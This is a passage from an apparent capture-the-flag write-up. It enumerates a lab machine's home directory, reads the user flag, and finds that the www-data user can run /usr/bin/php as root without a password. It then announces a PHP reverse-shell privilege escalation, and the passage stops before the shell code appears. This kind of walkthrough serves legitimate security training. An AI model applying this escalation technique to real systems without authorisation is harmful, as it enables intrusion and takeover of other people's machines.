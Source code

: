 If we check the `/home` directory we will see that the `/home/mrb3n` is world-readable:

```
$ ls -la /home/
total 12
drwxr-xr-x  3 root  root  4096 Feb  9  2021 .
drwxr-xr-x 20 root  root  4096 Feb  9  2021 ..
drwxr-xr-x  3 mrb3n mrb3n 4096 May  7  2021 mrb3n
```

We can see that our fist flag (the `user.txt`) is also world-readable:

```
$ ls -la /home/mrb3n
total 40
drwxr-xr-x 3 mrb3n mrb3n  4096 May  7  2021 .
drwxr-xr-x 3 root  root   4096 Feb  9  2021 ..
lrwxrwxrwx 1 mrb3n mrb3n     9 Feb  9  2021 .bash_history -> /dev/null
-rw-r--r-- 1 mrb3n mrb3n   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 mrb3n mrb3n  3771 Feb 25  2020 .bashrc
drwx------ 2 mrb3n mrb3n  4096 Feb  9  2021 .cache
-rw-r--r-- 1 mrb3n mrb3n   807 Feb 25  2020 .profile
-rw-r--r-- 1 mrb3n mrb3n     0 Feb  9  2021 .sudo_as_admin_successful
-rw------- 1 mrb3n mrb3n 10332 May  7  2021 .viminfo
-rw-rw-r-- 1 mrb3n mrb3n    33 Feb 16  2021 user.txt
```

So, we can read our first flag directly:

```
$ cat /home/mrb3n/user.txt
```

# Privilege escalation

Now that we have our fist flag, we need to escalate privileges in order to get our second flag, the `root.txt`.
If we check our sudo privileges we will see that we can execute `/usr/bin/php` as root without password:

```
$ sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```

Since our current directory (`/var/www/html/theme/Innovation`) is writable, we can create a PHP file with a bash one-liner reverse shell:

```
$ pwd
/var/www/html/theme/Innovation
$ ls -la /var/www/html/theme
total 16
drwxr-xr-x 4 www-data www-data 4096 Feb  9  2021 .
drwxr-xr-x 7 www-data www-data 4096 May  7  2021 ..
drwxr-xr-x 3 www-data www-data 4096 Sep  7  2018 Cardinal
drwxr-xr-x 4 www-data www-data 4096 Sep  7  2018 Innovation
```

